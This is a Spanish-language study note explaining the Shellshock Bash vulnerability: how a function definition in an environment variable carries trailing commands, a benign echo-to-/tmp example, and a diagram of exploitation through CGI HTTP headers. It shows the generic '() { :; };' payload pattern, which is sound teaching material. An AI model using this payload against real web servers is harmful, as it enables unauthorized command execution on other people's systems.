 
## ⚙️ Mecanismo del Ataque

### Funcionamiento técnico:

1. **Definición de función maliciosa**: El atacante envía una variable de entorno que contiene una definición de función seguida de comandos adicionales
2. **Procesamiento por Bash**: Bash procesa la variable e interpreta tanto la función como los comandos adicionales
3. **Ejecución no autorizada**: Los comandos adicionales se ejecutan inmediatamente

### Estructura del payload:

```bash
# Formato del payload malicioso
() { :; }; comando_malicioso

# Explicación:
# () { :; }     -> Definición de función vacía válida
# ;             -> Separador de comandos
# comando_malicioso -> Comando que se ejecutará
```

> [!example] Ejemplo básico
> ```bash
> # Variable de entorno maliciosa
> export VAR='() { :; }; echo "Sistema comprometido" > /tmp/shellshock_test'
> 
> # Cuando Bash procesa esta variable, ejecuta el comando echo
> bash -c "echo \$VAR"
> ```

---

## 🎯 Vectores de Explotación

### 1. Scripts CGI (Más común)

Los scripts CGI son el vector más común debido a que las cabeceras HTTP se convierten en variables de entorno.

```mermaid
sequenceDiagram
    participant A as Atacante
    participant W as Servidor Web
    participant C as Script CGI
    participant B as Bash
    
    A->>W: Request HTTP con cabecera maliciosa
    W->>C: Invoca script CGI
    C->>B: Carga variables de entorno
    B->>B: Procesa función maliciosa
    B->>C: Ejecuta comando
    C->>W: Respuesta con resultado
    W->>A: Respuesta HTTP
```
